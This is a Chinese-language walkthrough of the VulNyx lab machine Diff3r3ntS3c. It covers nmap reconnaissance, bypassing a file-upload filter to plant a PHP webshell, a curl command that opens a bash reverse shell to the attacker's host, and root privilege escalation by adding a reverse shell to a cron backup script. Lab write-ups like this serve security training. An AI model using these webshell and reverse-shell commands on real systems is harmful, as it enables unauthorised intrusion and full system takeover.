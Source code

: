 # 环境

来自[vulnyx_Diff3r3ntS3c](https://vulnyx.com/#Diff3r3ntS3c)，通过绕过文件上传拿到shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240710183727440](image/image-20240710183727440.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.30
```

![image-20240710183824841](image/image-20240710183824841.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p80 192.168.88.31
```

## 目录爆破

```bash
dirsearch -u http://192.168.88.31
```

![image-20240710184853014](image/image-20240710184853014.png)

# web渗透

## 文件上传拿shell

访问主页发现存在文件上传功能，测试是否能够绕过

![image-20240710190850445](image/image-20240710190850445.png)

准备木马

```bash
cp /usr/share/webshells/php/simple-backdoor.php ./
```

使用burp抓包，不断更改尝试php后缀，webshell上传成功

![image-20240710190809808](image/image-20240710190809808.png)

尝试反弹shell

```bash
curl -s "http://192.168.88.31/uploads/13/simple-backdoor.phtml?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.88.10/9999 0>%261'"
```

![image-20240710192403352](image/image-20240710192403352.png)

```bash
#获得更好的交互shell
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty size
stty rows 24 columns 80
source /etc/skel/.bashrc
```

## 定时任务提取

发现有一个定时任务，且这个定时任务是以root用户运行的，我们可以进行利用

![image-20240710202316490](image/image-20240710202316490.png)

这是一个备份的脚本，我们在这个脚本里面添加反弹shell，或者给bash加上setuid都可以拿到root，前者权限大一点

```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.88.10/8888 0>&1'"
```

![image-20240710202627675](image/image-20240710202627675.png)
